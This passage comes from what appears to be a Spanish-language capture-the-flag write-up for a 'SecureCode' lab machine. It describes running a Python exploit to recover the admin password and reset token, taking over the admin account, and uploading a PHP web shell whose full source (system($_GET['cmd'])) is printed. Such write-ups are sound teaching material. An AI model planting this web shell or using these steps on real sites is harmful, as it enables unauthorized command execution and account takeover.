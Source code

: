 >Ejecutamos nuestro script con el comando `python3 exploit.py -c password`

![[Pasted image 20240121021909.png]]({%link assets/img/securecode/15.png%})

>Interesante. Si intentamos iniciar sesión como admin con la contraseña proporcionada:

![[Pasted image 20240121021944.png]]({%link assets/img/securecode/16.png%})

>La contraseña resulta un tanto peculiar. Nos está dando una pista que debemos cambiarla. Si nos vamos a la parte del código encargada del cambio de contraseña (/login/resetPassword.php), vemos lo siguiente:

![[Pasted image 20240121022401.png]]({%link assets/img/securecode/18.png%})

>Está generando el token y colocándolo en la base de datos. Por ello, añadimos la opción de enumerar el token en nuestro script de Python.

![[Pasted image 20240121022533.png]]({%link assets/img/securecode/17.png%})

>También vemos que se tramita el cambio de contraseña proporcionando el token por una petición GET a la URL especificada. Nos vamos a generar una nueva contraseña dentro de la página, clickeando en `Forgot Your Password?` y nos ejecutamos nuestro script con el comando `python3 exploit.py -c token`.

![[Pasted image 20240121022833.png]]({%link assets/img/securecode/19.png%})

>Lo pegamos en la URL para efectuar el cambio de contraseña.

![[Pasted image 20240121022906.png]]({%link assets/img/securecode/20.png%})

>Iniciamos sesión y vemos un listado de usuarios.

![[Pasted image 20240121022944.png]]({%link assets/img/securecode/21.png%})

>También vemos una sección Items. Vamos a enumerarla.

![[Pasted image 20240121023019.png]]({%link assets/img/securecode/22.png%})

>Podemos añadir items nuevos. Estos incluyen un archivo. Tenemos una mayor superficie de ataque ahora que estamos como administradores en la página, y queremos ver si se acontece una vulnerabilidad en la subida de archivos. Subimos nuestro archivo `webshell.php` y lo interceptamos con Burp Suite.

```php
<pre>
<?php
	echo system($_GET["cmd"]);
?>
</pre>
```

![[Pasted image 20240121023428.png]]({%link assets/img/securecode/23.png%})

>Si vamos a Burp, vemos que se está enviando la siguiente petición.

![[Pasted image 20240121023509.png]]({%link assets/img/securecode/24.png%})
